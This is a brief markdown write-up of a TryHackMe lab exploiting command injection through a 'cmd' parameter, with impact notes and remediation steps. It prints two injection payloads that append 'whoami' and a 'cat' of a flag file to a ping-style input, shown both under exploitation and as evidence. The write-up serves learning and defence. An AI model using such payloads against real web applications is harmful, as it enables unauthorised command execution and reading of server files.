


# Command Injection — TryHackMe

**Date:** 2025-09-20  
**Platform:** TryHackMe (lab)  
**Vulnerability:** Command Injection

## Summary
A web endpoint accepted shell-style input via the `cmd` parameter, allowing OS commands to be executed by the web process.

## Target
`http://<lab>/vulnerable.php?cmd=<payload>`

## Exploitation (what I ran)
- Payload: `127.0.0.1; whoami`  
  **Result:** `www-data` (the web application user)
- Payload: `127.0.0.1; cat /home/tryhackme/flag.txt`  
  **Result:** `THM{COMMAND_INJECTION_COMPLETE}` (flag retrieved)

## Impact
- Remote command execution under `www-data`.  
- Ability to read files available to the web user.  
- Further escalation possible depending on server privileges (e.g., sudo or docker membership).

## Remediation
1. Remove direct shell execution of user input; use safe native APIs.  
2. If shell calls are necessary, implement a strict allowlist of permitted commands (no concatenation of user input).  
3. Validate and canonicalize inputs; strip or reject shell metacharacters (`;`, `|`, backticks, `$()`).  
4. Run web services with least privilege and monitor for suspicious requests.

## Evidence / Artifacts
- Screenshot: 
- Screenshot:  
 
- Commands used (examples):
 127.0.0.1; whoami
 127.0.0.1; cat /home/tryhackme/flag.txt